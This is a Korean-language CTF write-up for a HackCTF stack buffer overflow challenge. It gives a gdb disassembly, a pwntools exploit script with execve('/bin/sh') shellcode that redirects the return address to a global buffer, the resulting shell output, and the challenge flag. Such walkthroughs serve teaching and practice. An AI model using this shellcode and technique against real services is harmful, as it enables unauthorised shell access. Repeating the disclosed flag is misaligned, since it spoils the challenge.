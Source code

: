 # 내 버퍼가 흘러넘친다!

---

전체 코드는 다음과 같다.

```assembly
gdb-peda$ pd main
Dump of assembler code for function main:
   0x080484cb <+0>:	push   ebp
   0x080484cc <+1>:	mov    ebp,esp
   0x080484ce <+3>:	sub    esp,0x14
   0x080484d1 <+6>:	mov    eax,ds:0x804a040
   0x080484d6 <+11>:	push   0x0
   0x080484d8 <+13>:	push   0x2
   0x080484da <+15>:	push   0x0
   0x080484dc <+17>:	push   eax
   0x080484dd <+18>:	call   0x80483b0 <setvbuf@plt>
   0x080484e2 <+23>:	add    esp,0x10
   0x080484e5 <+26>:	push   0x80485b0
   0x080484ea <+31>:	call   0x8048380 <printf@plt>
   0x080484ef <+36>:	add    esp,0x4
   0x080484f2 <+39>:	push   0x32
   0x080484f4 <+41>:	push   0x804a060
   0x080484f9 <+46>:	push   0x0
   0x080484fb <+48>:	call   0x8048370 <read@plt>
   0x08048500 <+53>:	add    esp,0xc
   0x08048503 <+56>:	push   0x80485b8
   0x08048508 <+61>:	call   0x8048380 <printf@plt>
   0x0804850d <+66>:	add    esp,0x4
   0x08048510 <+69>:	lea    eax,[ebp-0x14]
   0x08048513 <+72>:	push   eax
   0x08048514 <+73>:	call   0x8048390 <gets@plt>
   0x08048519 <+78>:	add    esp,0x4
   0x0804851c <+81>:	mov    eax,0x0
   0x08048521 <+86>:	leave  
   0x08048522 <+87>:	ret    
End of assembler dump.
```

`read()`함수에서 0x32 bytes만큼 0x804a060에 저장한다. 이곳에 shellcode를 넣고 gets함수에서 발생하는 stackoverflow를 통해서 ret주소를 **0x804a060**으로 바꾸어주겠다.

`main()+69`를 보면 `gets()`를 통해서 입력받는 문자열을 ebp-0x14에 저장하는 것을 알 수 있다. 때문에 ret주소를 바꾸기 위해서는 payload를 다음과 같이 짜면 될 것이다.

**[dummy 24bytes] + 0x804a060** 

다음과 같은 코드를 이용해서 익스에 성공했다.

```python
from pwn import*
p=remote('ctf.j0n9hyun.xyz', 3003)
ret_address=0x804a060
shellcode='\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80'
p.recvuntil('Name : ')
p.sendline(shellcode)
p.recvuntil('input : ')
payload='A'*24
payload+=p32(ret_address)
p.sendline(payload)
p.interactive()
```

```bash
    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/4.prob$ python ex.py
    [+] Opening connection to ctf.j0n9hyun.xyz on port 3003: Done
    [*] Switching to interactive mode
    $ whoami
    attack
    $ ls
    flag
    main
    $ cat flag
    HackCTF{1_l0v3_70p_pwn3r_m4lhyuk}
```
**flag: HackCTF{1_l0v3_70p_pwn3r_m4lhyuk}**
